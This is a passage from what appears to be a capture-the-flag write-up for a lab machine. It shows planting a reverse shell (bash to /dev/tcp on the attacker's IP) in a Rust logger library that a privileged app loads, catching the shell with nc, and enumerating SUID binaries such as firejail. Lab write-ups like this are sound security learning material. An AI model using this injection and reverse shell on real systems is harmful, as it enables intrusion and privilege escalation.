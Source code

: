 ```bash

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

Ok, this `logger` component is used by `tipnet` app, if we can modify this `./src/lib.rs` file then we can get it to execute anything by `atlas` user. So first let's open a reverse shell from Rust, let's add this code in the lib.rs file, right after the function `pub fn log(){.....`:
```rust
use std::process::Command;

  Command::new("bash")
          .arg("-c")
          .arg("bash -i >& /dev/tcp/10.10.14.7/55555 0>&1")
          .output()
          .expect("failed to execute process");
```

Then let's build it: `cd /opt/crates/logger/src; cargo build`
{{< limg "/i/2023-08-10_20-51.png" "building logger" >}}

And now we've got a revshell :evil:
```bash
z➤ nc -lvnp 55555
Connection from 10.10.11.218:37238
bash: cannot set terminal process group (3802): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
```

Humm, weird, now we can run `find` command. I've found a suid bin file "firejail":
```bash
atlas@sandworm:~/.ssh$ find / -perm -4000 -user root 2>/dev/null | xargs -I{} ls -ltra {}
<000 -user root 2>/dev/null | xargs -I{} ls -ltra {}

-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Nov 23  2022 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 232416 Apr  3 18:00 /usr/bin/sudo
-rwsr-xr-x 1 root root 72072 Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 59976 Nov 24  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 44808 Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 72712 Nov 24  2022 /usr/bin/chfn
-rwsr-xr-x 1 root root 40496 Nov 24  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35200 Mar 23  2022 /usr/bin/fusermount3
```
